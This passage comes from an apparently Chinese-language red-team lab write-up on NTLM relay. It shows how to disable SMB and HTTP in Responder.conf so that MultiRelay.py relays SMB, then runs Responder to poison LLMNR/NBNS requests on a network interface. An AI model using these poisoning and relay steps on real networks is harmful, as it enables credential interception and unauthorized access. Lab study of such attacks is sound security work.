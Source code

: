 ![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/2.png)

现在 SMB 已经由 MultiRelay.py 脚本来进行中继，我们需要修改一下 responder 的配置文件Responder.conf，不让其对 hash 进行抓取。将 SMB 和 HTTP 的 On 改为 Off：
```
vim /usr/share/responder/Responder.conf

SMB=Off
HTTP=Off
```

重启 Responder.py，准备毒化（这里 responder 的作用就是当访问一个不存在的共享路径，将称解析降到 LLMNR/NBNS 时，来抓取网络中所有的 LLMNR 和 NetBIOS 请求并进行响应）
```
responder -I eth0
```
